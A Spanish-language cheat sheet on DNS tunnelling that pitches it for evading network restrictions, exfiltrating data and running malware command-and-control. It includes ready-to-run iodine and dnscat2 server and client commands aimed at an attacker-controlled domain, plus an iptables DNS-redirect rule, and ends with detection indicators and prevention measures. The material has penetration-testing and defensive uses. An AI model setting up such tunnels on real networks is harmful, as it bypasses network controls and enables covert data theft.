 **Cheat Sheet: Tunelización DNS**

---

### Concepto

La tunelización DNS permite encapsular datos dentro de solicitudes/respuestas DNS para evadir restricciones de red. 
Es útil cuando solo se permite tráfico DNS (puerto 53 UDP/TCP), como en redes corporativas o entornos restringidos.

### Flujo General

1. Cliente en red restringida genera datos o comandos (shell, archivos, etc.).
2. Estos datos se codifican (base32/base64) y se insertan en peticiones DNS.
3. Se envían al servidor DNS bajo tu control.
4. El servidor extrae, responde o reenvía los datos al backend.

### Casos de Uso

* Exfiltración de datos en ambientes monitoreados.
* Acceso remoto a redes restringidas.
* Persistencia y comunicación con malware.

### Herramientas Populares

* `iodine` (tunelización IP sobre DNS)
* `dnscat2` (canal C2 tipo chat sobre DNS)
* `Heyoka` (herramienta para covert channels, incluido DNS)
* `dns2tcp`

### Requisitos

* Acceso saliente al puerto 53 (UDP preferido, TCP en fallback).
* Control sobre un dominio propio (ej. `tunel.mi-c2.com`).
* Un servidor DNS que responda peticiones y actúe como relay.

### Ejemplos

#### Con `iodine`

**Servidor (afuera):**

```bash
iodined -f -P clave 10.0.0.1 tunel.dominio.com
```

**Cliente (desde red restringida):**

```bash
iodine -P clave tunel.dominio.com
```

Esto crea un túnel IP que permite tráfico como si fuera una VPN.

#### Con `dnscat2`

**Servidor (afuera):**

```bash
ruby ./dnscat2.rb
```

**Cliente:**

```bash
dnscat --dns server=8.8.8.8 --secret=clave
```

### Comandos Útiles

* Ver tráfico DNS en red:

```bash
tcpdump -ni eth0 port 53
```

* Reenviar peticiones DNS al servidor propio:

```bash
iptables -t nat -A OUTPUT -p udp --dport 53 -j DNAT --to <IP-servidor>
```

### Indicadores de Actividad

* Peticiones DNS frecuentes a dominios poco comunes.
* Subdominios largos y con base64/base32.
* Tráfico DNS sostenido sin justificación.

### Prevención y Detección

* DPI con decodificación de payload DNS.
* Análisis de comportamiento en logs DNS.
* Limitar DNS saliente solo a resolvers autorizados.


